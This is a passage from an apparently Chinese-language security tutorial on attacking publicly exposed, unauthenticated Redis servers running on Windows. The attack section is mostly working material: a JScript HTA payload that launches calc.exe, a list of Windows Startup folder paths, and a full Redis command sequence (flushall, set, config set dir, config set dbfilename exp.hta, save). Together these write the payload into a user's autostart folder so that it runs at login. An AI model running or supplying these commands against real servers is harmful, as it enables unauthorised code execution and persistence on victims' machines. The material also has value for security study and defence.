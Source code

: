 ### <a class="reference-link" name="%E5%85%AC%E7%BD%91Redis%E6%9C%AA%E6%8E%88%E6%9D%83+%E5%B8%B8%E8%A7%84%E6%94%BB%E5%87%BB"></a>公网Redis未授权+常规攻击

通过上述版本变迁的概述可知，redis3.2之后默认绑定了本地IP地址并开启了保护模式也就导致了默认的redis无法远程接入，但是也有很多redis配置错误将其暴露在公网上，如：关闭保护模式、绑定远程IP、空密码等危险配置。

常见的redis攻击方式主要是写入恶意程序文件，redis数据库备份（类似快照备份）里面有其自己的格式存储信息（版本、key、value等信息），虽然数据库文件中有很多脏数据，但是像webshell、ssh key、crontab等文件都有一定的容错性，也就导致了可以写入这些文件来进行恶意利用达到一定的攻击目的。

<a class="reference-link" name="%E5%86%99%E5%85%A5%E5%BC%80%E6%9C%BA%E8%87%AA%E5%90%AF%E5%8A%A8"></a>**写入开机自启动**

在 Windows 系统中有一些特殊的目录，在这些目录下的文件在开机的时候都会被运行，即：自启动程序。
- 恶意脚本
```
&lt;SCRIPT Language="JScript"&gt;new ActiveXObject("WScript.Shell").run("calc.exe");&lt;/SCRIPT&gt;
```
- 自启动程序
把上述恶意JS执行 calc 命令的代码程序写到了如下类似自启动目录中

```
# win10系统管理员自启动目录
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp

# win7、win10等系统普通用户下自启动目录
# user:Administrator
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

# user:Qftm
C:\Users\Qftm\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

# user:root
C:\Users\root\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

当系统启动时进入特定用户就会随之运行自启动程序，从而执行攻击者的恶意代码。

这里需要注意不同的自启动目录所属权限，普通用户没有权限向`Administrators`自启动目录写入程序，一般都是相应用户写入相应的自启动目录下。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01d03d934ee6ad4db4.png)
- redis未授权写入自启动文件
公网未授权直接远程连接执行数据库操作命令，写入恶意自启动程序

```
flushall

set x '&lt;SCRIPT Language="JScript"&gt;new ActiveXObject("WScript.Shell").run("calc.exe");&lt;/SCRIPT&gt;'

config set dir 'C:\Users\root\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup'

config set dbfilename exp.hta

save
```
